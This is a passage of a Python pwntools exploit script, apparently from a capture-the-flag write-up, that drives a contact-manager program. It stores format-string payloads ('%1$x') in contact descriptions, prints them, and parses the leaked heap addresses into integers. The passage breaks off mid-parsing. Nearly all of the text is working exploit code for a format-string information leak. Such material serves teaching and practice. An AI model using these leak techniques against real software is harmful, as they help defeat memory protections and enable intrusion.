 ```

#Create the second contact 
target.sendline("1")
target.sendline("guy1")
target.sendline("4685790123")
target.sendline("50")
target.sendline("%1$x")
print target.recvuntil(">>>")

#Create the third contact
target.sendline("1")
target.sendline("guy2")
target.sendline("1356984280")
target.sendline("50")
target.sendline("%1$x")
print target.recvuntil(">>>")

#Create the fourth contact
target.sendline("1")
target.sendline("guy3")
target.sendline("6310279584")
target.sendline("50")
target.sendline("%1$x")
print target.recvuntil(">>>")

#Create the fifth contact
target.sendline("1")
target.sendline("guy4")
target.sendline("2759830416")
target.sendline("50")
target.sendline("desc")
print target.recvuntil(">>>")

#Print the description, and grab the leaked addresses
target.sendline("4")
print target.recvuntil("Phone #: 0123456789\n")
hleak0 = target.recvline()
print target.recvuntil("Phone #: 4685790123\n")
hleak1 = target.recvline()
print target.recvuntil("Phone #: 1356984280\n")
hleak2 = target.recvline()
print target.recvuntil("Phone #: 6310279584\n")
hleak3 = target.recvline()
print target.recvuntil(">>>")

#Filter out the leaked addresses
hleak0 = hleak0.replace("Description: ", "")[1:]
hleak1 = hleak1.replace("Description: ", "")[1:]
hleak2 = hleak2.replace("Description: ", "")[1:]
hleak3 = hleak3.replace("Description: ", "")[1:]

hleak0 = hleak0.replace(" ", "")
hleak1 = hleak1.replace(" ", "")
hleak2 = hleak2.replace(" ", "")
hleak3 = hleak3.replace(" ", "")

hleak0 = "0x" + hleak0
hleak1 = "0x" + hleak1
hleak2 = "0x" + hleak2
hleak3 = "0x" + hleak3

hleak0 = int(hleak0, 16)
hleak1 = int(hleak1, 16)
```